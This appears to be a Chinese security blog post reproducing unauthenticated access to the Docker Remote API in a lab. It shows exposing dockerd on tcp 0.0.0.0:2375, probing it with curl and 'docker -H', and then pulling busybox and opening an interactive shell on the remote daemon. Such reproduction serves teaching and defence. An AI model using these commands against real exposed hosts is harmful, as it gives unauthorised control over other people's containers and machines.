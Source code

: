 ```yaml
---
title: Dcoker Remote API未授权访问漏洞
date: 2022-08-12 18:14:52
slug: docker-remote-api-vulnerability-escape
tags:
  - Docker
  - Security
categories:
  - Security
  - Container

---
```


## 一、漏洞说明

Docker守护进程监听IP为0.0.0.0，导致可以直接通过Docker Remote API操作Docker

## 二、影响版本

Docker version: 19.03.12 之前版本

## 三、漏洞复现

### 3.1、安装docker

```bash
sudo apt-get update

```

### 3.2、备份docker服务文件

```bash
cp /lib/systemd/system/docker.service /lib/systemd/system/docker.service.bak
```

### 3.3、修改服务文件，将docker监听IP改成0.0.0.0

```bash
vim /lib/systemd/system/docker.service	
```

```bash
# 在文件末尾加上如下代码
[Service]
ExecStart=
ExecStart=/usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
```

### 3.4、重启守护进程和docker服务

```bash
sudo systemctl daemon-reload   # 重载守护进程
sudo service docker restart  # 重启docker服务
systemctl status docker.service   # 查看docker运行情况
```

### 3.5、漏洞检测

```bash
curl http://x.x.x.x:2375

docker -H tcp://x.x.x.x:2375 images
```

```bash
┌──(kali㉿kali)-[~]
└─$ docker -H tcp://10.0.2.15 images                        
REPOSITORY         TAG          IMAGE ID       CREATED         SIZE
flaskapp-no-root   latest       191c96d54d26   24 hours ago    126MB
flaskapp-root      latest       50d72e86aa68   24 hours ago    126MB
alpine             latest       7e01a0d0a1dc   3 days ago      7.34MB
busybox            latest       a416a98b71e2   3 weeks ago     4.26MB
ubuntu             18.04        f9a80a55f492   2 months ago    63.2MB
ubuntu             16.04        b6f507652425   23 months ago   135MB
python             3.9.5-slim   c71955050276   2 years ago     115MB

```

### 3.6、漏洞利用

```bash
docker -H tcp://x.x.x.x pull busybox
docker -H tcp://x.x.x.x run -it busybox sh
```

```bash
┌──(kali㉿kali)-[~]
└─$ docker -H tcp://10.0.2.15 run -it busybox sh
/ # 
/ # ls
bin    dev    etc    home   lib    lib64  proc   root   sys    tmp    usr    var

```

